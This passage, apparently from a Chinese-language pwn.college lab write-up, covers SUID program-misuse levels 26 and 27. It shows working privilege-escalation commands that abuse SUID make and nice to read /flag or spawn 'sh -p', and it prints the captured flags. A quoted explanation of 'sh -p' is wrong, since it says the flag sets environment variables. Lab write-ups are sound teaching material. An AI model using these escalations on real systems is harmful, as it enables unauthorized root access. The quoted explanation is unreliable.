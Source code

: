 ```
hacker@program-misuse-level-26:~$ sh file.sh
Welcome to ./babysuid_level26!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/make.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level26) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/make!
```
有点儿意思啊，直接出现了GNU Make了
```
hacker@program-misuse-level-26:~$ COMMAND='cat /flag';make -s --eval=$'x:\n\t-'"$COMMAND"
pwn.college{oYDGLL2PogQjUYR2TV30VTUm-4z.0FO2EDL2QjMyMzW}
hacker@program-misuse-level-26:~$
```
这个搜了一下，然后不光查到了正确答案还发现自己做错了，出题人想要的是 sh -p 这样提权

> 这个命令的作用是启动一个新的shell进程，并将该进程的环境变量设置为当前shell进程的环境变量。
> 具体来说，这个命令包含以下部分：
> env：这是一个用于执行命令时设置环境变量的工具。在这个命令中，它用于将当前shell进程的所有环境变量传递给新的shell进程。
>
> sh：这是一个用于启动shell进程的命令。在这个命令中，它用于启动一个新的shell进程。
>
> -p：这是一个选项，用于告诉新的shell进程将其环境变量设置为当前shell进程的环境变量。具体来说，它会将当前shell进程的环境变量从环境变量文件（如/etc/environment、/etc/profile、~/.bashrc等）中读取，并将其设置为新的shell进程的环境变量。
>
> 因此，这个命令的效果是启动一个新的shell进程，并将其环境变量设置为当前shell进程的环境变量。这可以用于测试shell脚本或命令对环境变量的影响，或者在两个不同的shell进程之间共享环境变量。

看起来就是赋权，然后会拿到一个新的shell提示符

## level27 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-27:~$ sh file.sh
Welcome to ./babysuid_level27!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/nice.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level27) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/nice!
```
`nice`工具:用于以指定的进程调度优先级启动其他的程序。
```
hacker@program-misuse-level-27:~$ nice /bin/sh -p
# cat /flag
pwn.college{celMGA3nJomrVQwA5iPwIY2IORz.0VO2EDL2QjMyMzW}
#
```
这样才是题目想要的，我傻了
